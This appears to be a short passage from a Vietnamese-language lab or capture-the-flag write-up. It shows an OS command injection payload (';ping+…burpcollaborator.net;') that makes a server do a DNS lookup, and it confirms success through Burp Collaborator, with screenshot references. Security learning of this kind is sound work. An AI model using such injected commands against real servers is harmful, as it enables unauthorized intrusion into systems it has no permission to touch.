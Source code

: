 Gửi payload `;ping+cjzogc7gzc4ndef7c0nlexny3p9fx4.burpcollaborator.net;` để server thực hiện DNS lookup

![Untitled](writeup_media/Untitled%204.png)

Trong Burp Collaborator client nhận được request → thành công

![Untitled](writeup_media/Untitled%205.png)

---